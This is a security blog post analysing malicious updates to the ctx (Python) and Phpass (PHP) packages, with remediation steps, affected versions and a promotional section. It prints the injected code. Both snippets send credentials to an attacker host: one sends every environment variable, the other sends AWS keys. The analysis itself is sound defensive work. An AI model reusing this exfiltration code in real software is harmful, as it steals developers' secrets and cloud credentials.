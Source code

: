 ```yaml
---
title: "How two Python and PHP dependencies, ctx and Phpass, became malware that stole secrets and credentials"
description: A security expert's analysis of the malicious code added to ctx and Phpass, Python and PHP dependencies, that turned them into malware by sending environment variables and credentials to a third party attacker.
slug: ctx-and-phpass-package-malware
date: 2022-05-25T01:37
keywords: [dependencies, ctx, phpass]
tags: [malware, dependencies]
authors: [chris, free, gabe]
---
```


<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

## Popular packages, `ctx` and `Phpass`, compromised

In this post we'll be reviewing the malicious code that was introduced to both `ctx` and `phpass`.

<a href="https://twitter.com/s0md3v/status/1529005758540808192" target="_blank" rel="noopener">
  <img src="https://www.lunasec.io/docs/img/ctx-Twitter-Screenshot.png" alt="Screenshot of ctx Twitter tweet" />
</a>

<!--truncate-->

_Tweet from @s0md3v notifying the developer community about `ctx`._

## Malicious Code in `ctx`

After 7 years, the Python package `ctx` on PyPi received a version update.
A malicious version of `ctx` was published under `0.2.2` as an update to the previous `0.1.2`.

The following code was added to the package:

```python
def __init__(self):
    self.sendRequest()

    # code that performs dict access
    # please DO NOT RUN THIS CODE !

     def sendRequest(self):
        string = ""
        for _, value in environ.items():
            string += value+" "

        message_bytes = string.encode('ascii')
        base64_bytes = base64.b64encode(message_bytes)
        base64_message = base64_bytes.decode('ascii')

        response = requests.get("https://anti-theft-web.herokuapp.com/hacked/"+base64_message)
```

### Malware Code Overview

This code does the following:

1. Reads all Environment variables (potentially containing sensitive values like credentials for AWS or the database),
2. Converts the values into `base64` encoding to allow for transport via HTTP,
3. Finally, it sends an HTTP request with the leaked environment variables to the attacker's Heroku App.

## `Phpass` contains similar malware

The PHP library on Composer `Phpass` was also updated with identical malicious code around the same time.

<a href="https://twitter.com/s0md3v/status/1529010306466615296" target="_blank" rel="noopener">
  <img src="https://www.lunasec.io/docs/img/Phpass-Twitter-Screenshot.png" alt="Screenshot of Phpass Twitter tweet" />
</a>

_Tweet from @s0md3v notifying the developer community about `Phpass`._

This malicious code that was added to this package was:

```php
$access = getenv('AWS_ACCESS_KEY');
$secret = getenv('AWS_SECRET_KEY');
$xml = file_get_contents('http://anti-theft-web.herokuapp.com/hacked/$access/$secret');
```
*From the [Sonatype blog post](https://blog.sonatype.com/pypi-package-ctx-compromised-are-you-at-risk)*

### Most Phpass Users Unaffected

Luckily, the [PHP package](https://packagist.org/packages/hautelook/phpass) derived from the affected repository 
[hautelook/phpass](https://github.com/hautelook/phpass) 
had not received many downloads in the past months. Instead, the [package](https://packagist.org/packages/bordoni/phpass)
for the forked repository [bordoni/phpass](https://github.com/bordoni/phpass) was started to primarily be used by developers well
before the malicious code was published.

The below graphs show the download count of the packages from Packagist (the PHP Package registry powering Composer):

![monthly downloads of the hautelook/phpass library](/img/packagist-hautelook-phpass-downloads.png)

*Monthly downloads of `hautelook/phpass` (malicious version)*

![monthly downloads of the bordoni/phpass library](/img/packagist-bordoni-phpass-downloads.png)

*Monthly downloads of `bordoni/phpass` (safe fork)*

## Remediation Steps

The libraries have all been taken down now. The simplest way to verify that you're safe is to update to the latest
package versions.

If updating isn't an option, you may also verify that you're not using any of the following package versions.

### Affected Package Versions
- `ctx` versions `0.2.2` and `0.2.6` (Python)
- `Phpass` versions are unknown (PHP)
  - It's unlikely more than a few dozen users are affected due to the [small download count](https://web.archive.org/web/20220519155745/https://packagist.org/packages/hautelook/phpass/stats)
  - If you have more information, please tell us on [Slack](https://join.slack.com/t/lunaseccommunity/shared_invite/zt-1a8cdfqdg-LbgCYuxzQl7iyZzZ4H4Idw) or [GitHub](https://github.com/lunasec-io/lunasec).

## External References

- Archived version of `ctx` [package versions on Pypi](https://archive.ph/xTUEN).

- [Initial post](https://old.reddit.com/r/Python/comments/uumqmm/ctx_new_version_released_after_7_years_750k) observing the package had been updated.

- [Reddit post](https://old.reddit.com/r/Python/comments/uwhzkj/i_think_the_ctx_package_on_pypi_has_been_hacked/) with details about the malicious changes to ctx.

- [Sonatype blog post](https://blog.sonatype.com/pypi-package-ctx-compromised-are-you-at-risk) with details about timeline.

- [Post by SANS ISC InfoSec Forums](https://isc.sans.edu/forums/diary/ctx+Python+Library+Updated+with+Extra+Features/28678/)

## For a limited time, claim an expert security review

Though perhaps unconventional, our team of Security Engineers has been working with startups to audit their dependencies 
and help them manage their security roadmap.

Why? It's simple: By working with us, we also learn about the common problems that companies face while shipping 
software. Helping you enables us to make our Open Source software better.

To get started, please email us at [deps@lunasec.io](mailto:deps@lunasec.io) or 
[schedule a 15-minute call](https://cal.com/lunasec/15min) with one of our engineers.

### Who are we?

If you've heard of [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/) or 
[Spring4Shell](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities), then you're familiar with our work already!
We're the security experts that gave those vulnerabilities their name by providing clear, concise advice and 
[building tools to resolve them](https://github.com/lunasec-io/lunasec).

Since then, we've interviewed hundreds of companies to help us build 
[LunaTrace](https://github.com/marketplace/lunatrace-by-lunasec).

What is LunaTrace? It's our Open Source security platform that automatically discovers vulnerabilities in your 
dependencies and gives you expert security guides with remediation steps and automated patches.

Whether you're a developer or a security professional, we'd love to hear from you! Drop us a line by 
[joining our Slack](https://join.slack.com/t/lunaseccommunity/shared_invite/zt-1a8cdfqdg-LbgCYuxzQl7iyZzZ4H4Idw) or 
trying out LunaTrace on your [GitHub repo for free](https://github.com/marketplace/lunatrace-by-lunasec).


## Updates

1. Original post on 2022-05-24 @ 5pm PDT
2. Added more details about the packages on 2022-05-25 @ 1:30am UTC
